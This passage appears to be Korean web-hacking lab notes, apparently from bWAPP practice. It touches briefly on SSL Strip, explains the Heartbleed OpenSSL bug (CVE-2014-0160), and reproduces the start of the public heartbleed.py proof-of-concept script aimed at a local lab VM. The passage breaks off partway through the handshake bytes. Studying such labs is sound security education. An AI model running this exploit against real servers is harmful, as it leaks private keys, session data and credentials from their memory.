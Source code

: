 * Low와 달리 HTTPS를 사용함(443 포트)
* 똑같이 로그인하면 내용이 보이지 않음
* **SSL Strip**을 이용하면 뚫을 수 있으니 참고

---

## 하트블리드(HeartBleed)

![image](https://user-images.githubusercontent.com/28076542/52790382-bbcea880-30a9-11e9-92ad-dde61e37eff0.png)

* OpenSSL의 소프트웨어 버그(CVE 2014-0160)
* OpenSSL의 세션 연결을 확인하는 하트비트 기능의 버퍼오버플로우 취약점을 이용

### 파이어폭스 설정

* Preferences --> Advanced --> Network --> Settings... --> Use this proxy server for all protocols 체크

---

## Heartbleed Vulnerability

![image](https://user-images.githubusercontent.com/28076542/52790655-6e9f0680-30aa-11e9-8d92-e021ec13bd8b.png)

* attack script...를 눌러 스크립트 다운로드
* 8443포트가 취약하다고 했으니 URL: `https://192.168.190.143:8443/`로 접속

### heartbleed.py

```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code
# Minor customizations by Malik Mesellem (@MME_IT)

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=8443, help='TCP port to test (default: 8443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
```